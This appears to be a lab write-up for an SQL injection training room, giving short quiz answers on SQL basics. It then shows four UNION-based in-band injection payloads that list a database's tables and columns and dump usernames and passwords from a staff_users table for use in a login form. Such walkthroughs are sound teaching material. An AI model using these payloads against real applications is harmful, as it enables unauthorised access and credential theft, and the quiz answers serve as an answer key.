 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

## Task 1: Brief
#### - What does SQL stand for?
	- Structured Query Language
	
## Task 2: What is a Database?
#### - What is the acronym for the software that controls a database?
	- DBMS
	
#### - What is the name of the grid-like structure which holds the data?
	- Table
	
## Task 3: What is SQL?
#### - What SQL statement is used to retrieve data?
	- SELECT
	
#### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
#### - What SQL statement is used to add data?
	- INSERT

## Task 4: What is SQL Injection?
#### - What character signifies the end of an SQL query?
	- ;

## Task 5: In-Band SQLi?
Deploy the machine, then use the given commands in the task.
- This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
- This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
- This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
- This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will find the username and password, then you can proceed inputting it in the login form.


